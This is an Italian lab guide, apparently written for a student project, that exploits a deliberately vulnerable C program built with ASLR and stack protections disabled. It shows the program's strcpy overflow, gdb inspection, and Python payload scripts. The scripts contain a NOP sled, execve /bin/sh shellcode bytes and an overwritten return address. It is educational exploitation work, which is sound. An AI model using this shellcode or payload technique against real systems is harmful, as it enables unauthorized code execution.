




# Guida (Da importare nella relazione del progetto) METASPLOITABLE

## Introduzione (Environment)

- 32 bit architecture
- disable ASLR (0) found in ```/proc/sys/kernel/randomize_va_space```
- compile with executable stack
    - gcc params: ```-Wall -Wextra -O2 -std=c99 -fno-stack-protector -m32 -no-pie -z execstack```


# Target code

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char** argv){
  char buffer[500];
  strcpy(buffer, argv[1]);
  
  return 0;
}
```

Il codice è molto semplice, e palesemente exploitabile


# Step 1 -> Identificare la grandezza del buffer


- Usare lo script in python, una volta che abbiamo (più o meno un'idea del buff size procediamo con gdb)

- Nel nostro caso otteniamo 520, dunque possiamo supporre 500


# Step 2 -> Capire quanto grande fare il NOP sled



Come si vede dall'immagine, come prima cosa (sapendo che il buff size è 500), ho avviato il programma con un input grande 500, come potevamo aspettarci il programma è andato in segmentation fault, facendo un'analisi del registri, notiamo di aver sovrascritto l'EIP con il nostro payload (```0x41414141``` corrisponde al payload di A)

# Step 3 -> Costruzione del payload + Shellcode

Affinchè riusciamo a fare code execution su questo programma è necessario che al posto di `\x41` nell'EIP si trovi l'indirizzo al nostro shellcode, per ottenere questo risultato utilizziamo la tecnica del NOP sled, in pratica aggiungiamo tante operazione NOP (dunque che verrano skippate) fino a raggiungere (alla fine dello sled) il nostro shellcode.


---


Per prima cosa costruiamo un payload che ci serve a capire la posizione del NOP sled.

```python
nop_sled = "\x90" * 414

shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

ret_addr = "\x51\x51\x51\x51"*10

payload = nop_sled + shellcode + ret_addr
```

Nel nostro caso lo shellcode è lungo 46 bytes, dunque per arrivare a 500 (e sovrascrivere l'EIP) dobbiamo fare 500-46-40 il -40 è dovuto al fatto che alla fine del payload inseriamo l'indirizzo dove in teoria dovrebbe trovarsi lo shellcode, in questo caso abbiamo inserito ```\x51\x51\x51\x51``` solo per identificare la sua posizione velocemente. Essendo questo indirizzo lungo 4 bytes lo inseriamo 10 volte per aggiungere padding ed essere sicuri di trovarlo

# Step 4 -> Find Center of nop sled



Come possiamo vedere dalla foto, lanciando il programma con il payload di sopra otteniamo un segmentation fault con EIP a ```0x51515151```, utilizzando gdb per leggere la memoria controlliamo cosa è stato scritto nel buffer


```bash
x/200x $esp
```



Come possiamo notare, i 414 bytes contenenti i NOP sono stati inseriti correttamente in memoria, siccome sappiamo che il nostro shellcode si trova alla fine di questi nop, basta posizionare l'EIP in mezzo a questi NOP per far eseguire il nostro shellcode, scegliamo un indirizzo nel centro ad esempio ```0xbffffde0``` ricordandoci di convertilo in little endian.

Dunque il nostro payload diventa

```python
nop_sled = "\x90" * 414

shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

ret_addr = "\xe0\xfd\xff\xbf"*10

payload = nop_sled + shellcode + ret_addr
```

# Step 4 ->  Execution



Come possiamo notare è stato eseguito lo shellcode!!!!


